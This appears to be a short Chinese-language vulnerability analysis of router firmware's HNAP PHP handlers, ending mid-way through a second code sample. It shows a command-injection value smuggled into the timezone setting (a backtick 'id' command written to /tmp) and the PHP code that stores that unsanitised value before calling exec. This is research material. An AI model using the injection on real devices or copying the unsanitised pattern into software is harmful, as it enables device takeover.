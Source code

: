 重新启动服务

```shell
kill -9 186 & /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```

查看日志输出，发现php未能启动

```shell
find . -name "*php*"
```

启动php服务即可

### 漏洞分析

php服务，找到php函数以后，筛选exec函数

```shell
config system
        option hostname rtkmips
        option timezone ''`id > /tmp/result`''
```



```php
<?php

class SetNTPServerSettings extends GetMultipleHNAPs
{
    function __construct($act_val)
    {
        parent::__construct($act_val);
    }

    public function actionIndex()
    {
        $option = $this->act_val;
        $system_info = read_cfg_info("system");
        $system_info = add_or_update_option_info($system_info, "system", "", "timezone", $option['system_time_timezone']);
        save_cfg_info("system", $system_info);
        exec("/etc/init.d/system  restart");
        $result['SetNTPServerSettingsResult'] = "OK";
        $this->api_response(__CLASS__, $result);
    }
}
```





```php
<?php
set_time_limit(300);

class SetNetworkTomographySettings extends GetMultipleHNAPs
{
    function __construct($act_val)
    {
        parent::__construct($act_val);
    }

    public function actionIndex()
    {
        $result['SetNetworkTomographySettingsResult'] = "FAIL";
        $option = $this->act_val;

        $ping_number_range = array("options" => array("min_range" => 1, "max_range" => 50));
```